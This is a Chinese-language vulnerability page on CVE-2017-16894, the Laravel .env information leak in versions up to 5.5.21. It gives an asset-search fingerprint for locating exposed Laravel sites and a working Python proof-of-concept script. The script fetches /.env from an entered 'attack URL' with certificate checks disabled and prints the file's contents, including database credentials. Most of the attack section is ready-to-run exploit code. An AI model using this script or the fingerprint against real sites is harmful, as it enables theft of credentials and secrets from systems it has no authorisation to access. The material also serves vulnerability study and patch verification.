

# Laravel .env 配置文件泄露 CVE-2017-16894

## 漏洞描述

Laravel Framework 是 Taylor Otwell 软件开发者开发的一款基于 PHP 的 Web 应用程序开发框架。 Laravel framework 5.5.21 及之前的版本中存在 .env 文件可被下载的信息泄露漏洞。远程攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
Laravel framework <= 5.5.21
```

## 网络测绘

```
app="Laravel-Framework"
```

## 漏洞复现

访问目标 url http://xxx.xxx.xxx.xxx/.env

当配置不当且在影响范围内时会出现 **.env 可被下载的情况**，导致数据库账号密码等敏感信息的泄露

这里使用 POC 脚本来进行信息获取



## 漏洞 POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/.env"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "APP_NAME" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] .env 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```
